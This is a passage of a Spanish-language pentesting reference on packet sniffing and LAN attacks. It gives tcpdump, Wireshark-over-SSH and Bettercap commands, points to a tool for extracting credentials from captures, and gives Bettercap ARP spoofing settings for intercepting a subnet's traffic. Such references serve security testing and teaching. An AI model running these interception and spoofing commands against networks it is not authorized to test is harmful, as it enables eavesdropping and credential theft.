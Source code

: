```bash
sudo tcpdump -i <INTERFACE> udp port 53 #Listen to DNS request to discover what is searching the host
tcpdump -i <IFACE> icmp #Listen to icmp packets
sudo bash -c "sudo nohup tcpdump -i eth0 -G 300 -w \"/tmp/dump-%m-%d-%H-%M-%S-%s.pcap\" -W 50 'tcp and (port 80 or port 443)' &"
```

Se puede, además, capturar paquetes de una máquina remota a través de una sesión SSH con Wireshark como la GUI en tiempo real.

```
ssh user@<TARGET IP> tcpdump -i ens160 -U -s0 -w - | sudo wireshark -k -i -
ssh <USERNAME>@<TARGET IP> tcpdump -i <INTERFACE> -U -s0 -w - 'port not 22' | sudo wireshark -k -i - # Exclude SSH traffic
```

### Bettercap

```bash
net.sniff on
net.sniff stats
set net.sniff.output sniffed.pcap #Write captured packets to file
set net.sniff.local  #If true it will consider packets from/to this computer, otherwise it will skip them (default=false)
set net.sniff.filter #BPF filter for the sniffer (default=not arp)
set net.sniff.regexp #If set only packets matching this regex will be considered
```

### Wireshark

Obviamente.

### Capturing credentials

Puedes usar herramientas como [https://github.com/lgandx/PCredz](https://github.com/lgandx/PCredz) para analizar credenciales de un pcap o de una interfaz en vivo.

## LAN attacks

### ARP spoofing

ARP Spoofing consiste en enviar ARPResponses gratuitos para indicar que la IP de una máquina tiene la MAC de nuestro dispositivo. Luego, la víctima cambiará la tabla ARP y contactará nuestra máquina cada vez que quiera contactar la IP suplantada.

#### **Bettercap**

```bash
arp.spoof on
set arp.spoof.targets <IP> #Specific targets to ARP spoof (default=<entire subnet>)
set arp.spoof.whitelist #Specific targets to skip while spoofing
set arp.spoof.fullduplex true #If true, both the targets and the gateway will be attacked, otherwise only the target (default=false)
set arp.spoof.internal true #If true, local connections among computers of the network will be spoofed, otherwise only connections going to and coming from the Internet (default=false)
```
